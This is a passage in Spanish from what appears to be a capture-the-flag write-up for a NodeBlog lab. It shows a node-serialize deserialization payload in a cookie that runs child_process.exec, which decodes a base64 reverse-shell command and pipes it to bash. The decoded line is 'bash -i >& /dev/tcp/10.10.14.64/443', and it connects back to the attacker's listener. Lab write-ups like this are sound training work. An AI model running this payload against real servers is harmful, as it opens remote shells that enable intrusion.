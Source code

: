 lo que hace es ejecutar el texto decodificado con bash

por lo que el código diría algo así. 

"Quiero que decodifiques esto YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42NC80NDMgMD4mMQo= una vez que tengas  esto `'bash -i >& /dev/tcp/10.10.14.64/443 0>&1'` ejecútalo con bash "

si haces la prueba en tu terminal y te pones en escucha por el puerto 443 en este caso recibirás una shell de tu propia maquina.

Para que esto lo interprete la IP VICTIMA en la pagina web tenemos que ponerlo en formato URL en la cookie utilizando el mismo método que usamos al mandarnos el PING

```bash
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42NC80NDMgMD4mMQo= |base64 -d |bash',function(error, stdout, stderr){ console.log(stdout)});}()"}
```

![[20250724094919.png]](nodeblog-images/20250724094919.png)

![[20250724094929.png]](nodeblog-images/20250724094929.png)

esto lo pegaremos en la pagina index.txt pulsando F12 y cambiando el valor de la cookie

![[20250724095020.png]](nodeblog-images/20250724095020.png)
en nuestra terminal nos ponemos en escucha por el puerto 443 
